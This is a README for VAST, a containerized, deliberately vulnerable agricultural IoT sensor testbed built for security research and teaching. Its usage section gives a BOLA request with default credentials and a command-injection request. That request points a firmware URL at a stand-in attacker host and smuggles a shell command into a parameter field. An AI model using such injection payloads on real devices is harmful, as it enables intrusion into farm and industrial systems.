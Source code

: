 # VAST - Vulnerable Agricultural Sensor Testbed

## About VAST

VAST (Vulnerable Agricultural Sensor Testbed) is a containerized, vulnerable-by-design IoT framework specifically created for agricultural cybersecurity research, education, and testing. This platform simulates real-world agricultural IoT deployments while incorporating deliberate security vulnerabilities and sensor health anomalies.

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Docker](https://img.shields.io/badge/Docker-Ready-blue.svg)](https://www.docker.com/)

## Features

- **Multi-layered Architecture**: Simulates complete agricultural IoT stack from sensors to gateway to client
- **Deliberate Vulnerabilities**: Implements BOLA, command injection, DDoS capability, and resource exhaustion vulnerabilities
- **Sensor Health Simulation**: Models four fault types (stuck readings, drift, spikes, and dropouts)
- **Containerized Deployment**: Complete Docker-based implementation for reproducibility across environments
- **Advanced Monitoring**: Integrated Prometheus and Grafana dashboards for security and health visualization
- **Dataset Generation**: Tools for creating LLM-ready security datasets from framework interactions
- **Agricultural Context**: Realistic temperature patterns reflecting diurnal cycles and crop-specific ranges

## Getting Started

### Prerequisites

- Docker and Docker Compose
- 4GB RAM minimum (8GB recommended)
- Basic knowledge of IoT and cybersecurity concepts

### Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/EmilPasca/vast.git
   cd vast
   ```

2. Build and start the containers:
   ```bash
   docker-compose -f main.docker-compose.yaml up -d
   ```

3. Start the observability stack:
   ```bash
   docker-compose -f observability/docker-compose.yaml up -d
   ```


## Usage Examples

### Basic Temperature Monitoring

Access the simulated sensor data through the gateway API:

```bash
curl http://localhost:48080/data/TEMP001
```

### Vulnerability Testing

#### BOLA Vulnerability Example

```bash
curl -u admin:admin http://localhost:48080/users/premium_user/sensors
```

#### Command Injection Example

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
     -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo TEST > /tmp/test.txt"}' \
     http://localhost:12381/firmware/update
```

#### Sensor Fault Simulation

```bash
./docs/FaultSimulation/simulate-faults.sh --sensor localhost --port 12381 --fault drift --duration 120
```

### Dataset Generation

Generate datasets for machine learning and LLM-based analysis:

```bash
cd dataset-tools
python generate_resource_exhaustion_dataset.py --sensor temperature-sensor-01 --baseline 180 --duration 300
```

## Architecture

VAST implements a multi-layered architecture mimicking real-world agricultural IoT deployments:

```
┌─────────────────┐     ┌──────────────┐     ┌───────────────┐     ┌──────────────┐
│   Data Server   │◄────│  Sensors     │────►│  MQTT Broker  │◄────│  IoT Gateway │
└─────────────────┘     └──────────────┘     └───────────────┘     └──────────────┘
                                                                          ▲
┌─────────────────┐     ┌──────────────┐                                  │
│   Prometheus    │◄────│  Grafana     │◄─────────────────────────────────┘
└─────────────────┘     └──────────────┘
```

## Documentation

Comprehensive documentation is available throughout the repository:

- **Installation**: See the [Getting Started](#getting-started) section above for installation instructions
- [Architecture Overview](supplementary-materials/README.md#relationship-to-main-paper)
- **Vulnerabilities**:
  - [BOLA Vulnerability](supplementary-materials/vulnerability-details/bola-vulnerability.md)
  - [Command Injection Vulnerability](supplementary-materials/vulnerability-details/command-injection-vulnerability.md)
  - [DDoS Vulnerability](supplementary-materials/vulnerability-details/ddos-vulnerability.md)
  - [Resource Exhaustion Vulnerability](supplementary-materials/vulnerability-details/resource-exhaustion-vulnerability.md)
- [Dataset Generation](supplementary-materials/sensor-faults-simulation.md)


## Technical Methodology

Details on our technical implementation and analytical methods:

- [Sensor Fault Simulation](supplementary-materials/sensor-faults-simulation.md)
- [Detectability Score Calculation](supplementary-materials/detectability-calculation.md)
- [Fault Masking Methodology](supplementary-materials/fault-masking-methodology.md)
- [Wireshark Analysis of Attacks](supplementary-materials/analysis/wireshark-analysis.md)

## Contributing

We welcome contributions to VAST! Please see our [Contributing Guidelines](CONTRIBUTING.md) for details on how to submit pull requests, report issues, or request features.

## Disclaimer

VAST contains deliberately vulnerable components designed for educational purposes. Using these vulnerabilities outside of controlled educational or research environments may be illegal. The authors are not responsible for misuse of this framework.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE.md) file for details.

## Citation

If you use VAST in your research, please cite our paper:

```
Pasca, E.M.; Delinschi, D.; Erdei, R.; Baraian, I.; Matei, O. A Vulnerable-by-Design IoT Sensor Framework for Cybersecurity in Smart Agriculture. Agriculture 2025, X, X. https://doi.org/10.3390/xxxxx
```

## Ethical Considerations and Security Disclosure

**Important Notice**: This repository contains deliberately vulnerable code, attack implementations, and exploitation techniques designed for **educational and research purposes only**.

- **Potential for Harm**: The vulnerabilities demonstrated in this framework (BOLA, command injection, DDoS, resource exhaustion) can cause significant damage if deployed against production systems. Never deploy this code in production environments or use these techniques against systems without explicit permission.

- **Controlled Environment Use**: All testing, experimentation, and educational activities should be conducted in isolated environments completely disconnected from production networks or the internet.

- **Legal Implications**: Using these attack techniques against systems without proper authorization may violate computer crime laws in many jurisdictions, including but not limited to the Computer Fraud and Abuse Act (US), the Computer Misuse Act (UK), and similar legislation worldwide.

- **Responsible Disclosure**: Some implementation details have been modified or abstracted to prevent direct weaponization while maintaining educational value. However, the core concepts remain valid for understanding security vulnerabilities.

- **Academic and Educational Context**: This framework was developed to address the significant gap in agricultural IoT security education and research. Its purpose is to improve security awareness and defensive capabilities in this critical infrastructure sector.

By using this repository, you acknowledge these considerations and agree to use the knowledge and tools responsibly. The authors and contributors assume no liability for misuse of this software or the techniques it demonstrates.

## Acknowledgments

This work was supported by a grant of the Romanian National Authority for Scientific Research and Innovation, CCCDI - UEFISCDI, project number ERANET-CHISTERA-IV-TROCI 4/2024, within PNCDI IV.

This work is also supported by the project „Collaborative Framework for Smart Agriculture” – COSA that received funding from Romania’s National Recovery and Resilience Plan PNRR-III-C9-2022-I8, under grant agreement 760070.

This research has been supported by the CLOUDUT Project, cofunded by the European Fund of Regional Development through the Competitiveness Operational Programme 2014-2020, contract no. 235/2020.
